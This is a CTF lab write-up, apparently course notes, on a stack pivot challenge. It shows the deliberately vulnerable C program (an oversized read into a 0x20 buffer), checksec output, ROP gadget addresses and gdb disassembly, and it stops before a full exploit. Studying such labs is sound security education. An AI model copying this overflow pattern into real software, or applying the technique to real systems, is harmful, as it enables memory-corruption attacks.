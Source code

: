 ```yaml
---
title: Simple PWN 0x35(2023 Lab - Stack Pivot)
tags: [eductf, CTF, PWN]

---
```


# Simple PWN 0x35(2023 Lab - Stack Pivot)
## Background
[Simple PWN - 0x09(stack pivoting)](https://hackmd.io/@SBK6401/rylybxgji)
[Simple PWN - 0x10(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
## Source code
```cpp
#include <stdio.h>
#include <unistd.h>

int main(void)
{
	char buf[0x20];
	read(0, buf, 0x80);
	return 0;
}
```
## Recon
這一題助教是預設我們必須要使用stack pivot的技巧拿到flag，不過沒有時間設定seccomp，所以我們自己假裝只能使用read / write / open這三個syscall
1. checksec + file
    ```bash
    $ checksec chal
    [*] '/mnt/d/NTU/Second Year/Computer Security/PWN/Lab2/lab_stack_pivot/share/chal'
        Arch:     amd64-64-little
        RELRO:    Partial RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
    $ file chal
    chal: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=26fa8e6daa97baf7a26596ea91af5703dd932327, for GNU/Linux 3.2.0, not stripped
    ```
    首先可以看到該binary是statically link，所以直覺是利用ROP chain拿到shell，不過仔細看source code會發現BOF的長度顯然不太夠我們蓋成shell，所以需要用到stack pivot的技巧，控制RBP跳到其他的地方繼續寫
2. 找gadget
    ```python
    leave_ret = 0x0000000000401cfc
    pop_rdi_ret = 0x0000000000401832
    pop_rsi_ret = 0x000000000040f01e
    pop_rax_ret = 0x0000000000448d27
    pop_rdx_ret = 0x000000000040173f
    syscall_ret = 0x0000000000448280
    ```
    這邊的重點是syscall ret這個gadget，其實他不是syscall完之後直接ret，而是在經過一些判斷才會進到ret，這個可以從gdb看出來
    ```bash
    gef➤  x/10i 0x448280
       0x448280 <read+16>:  syscall
    => 0x448282 <read+18>:  cmp    rax,0xfffffffffffff000
       0x448288 <read+24>:  ja     0x4482e0 <read+112>
       0x44828a <read+26>:  ret
    ```